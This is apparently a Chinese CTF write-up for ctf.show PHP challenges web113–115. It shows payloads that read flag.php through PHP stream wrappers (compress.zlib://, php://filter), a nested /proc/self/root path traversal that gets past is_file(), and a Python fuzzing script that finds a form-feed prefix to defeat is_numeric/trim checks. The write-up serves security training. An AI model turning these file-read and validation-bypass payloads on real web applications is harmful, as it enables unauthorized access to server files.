








### web113（ #伪协议  or #目录穿越 ）

开启容器

代码审计



换 zip、bzip、zlib 试试

```
/?file=compress.zlib://flag.php
```



同时
`is_file()`  目录溢出漏洞, 大概意思就是通过多级嵌套绕过检测

这里的  `/proc/self/root`  是一个指向  `/`  的软连接

```
/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/p
roc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/pro
c/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/
self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/se
lf/root/proc/self/root/var/www/html/flag.php
```



### web114（ #伪协议 ）

开启容器

代码审计



直接 filter 就可以

`/?file=php://filter/resource=flag.php`



### web115（ #非ascii字符 ）

开启容器

代码审计



- `$num`必须是一个数值或数值字符串。
  - `is_numeric()`  的相关比较可以看到我们在数字开头加入一些特殊字符可以绕过  `is_numeric()`  返回 true

```php
<?php
	is_numeric(' 36'); // true
	is_numeric('36 '); // false
	is_numeric('3 6'); // false

	is_numeric("\n36"); // true
	is_numeric("\t36"); // true

	is_numeric("36\n"); // false
	is_numeric("36\t"); // false
?>
```

- `$num`本身不等于`'36'`。
  - 而源码中的  `!==`  和  `===`  一样是强类型比较，对于  `===`  的强类型比较, 但凡比较的字符串有一点点的不一样 (空格 tab 换行符等), 就返回 false

```php
	' 36'=='36'; // true
	'36 '=='36'; // false
	'3 6'=='36'; // false

	"\n36"=="36"; // true
	"\t36"=="36"; // true

	"36\n"=="36"; // false
	"36\t"=="36"; // false

	" 36" === "36" // false
	"36 " === "36" // false

	"\n36"==="36"; // false
	"\t36"==="36"; // false
```

- 去除`$num`两端的空白字符后不等于`'36'`。
  - 我们需要找到一个不能够被  `trim()`  去除的字符
- 经过`filter()`处理后的结果等于`'36'`。

可以 fuzz 下 ASCII 0-31 字符

```python
import requests
from urllib.parse import unquote

url = 'http://597242c4-7a96-4a3b-adff-63333fbbf7b9.challenge.ctf.show/?num='

for i in range(32):
    if i < 16:
        s = '0' + str(hex(i).replace('0x', ''))
    else:
        s = str(hex(i).replace('0x', ''))
    payload = '%' + s + '36'
    res = requests.get(url + unquote(payload))
    if 'ctfshow' in res.text:
        print(payload)
```


最终的 payload 是  `%0c36`, 即  `\f36`, 其中  `\f`  是换页符


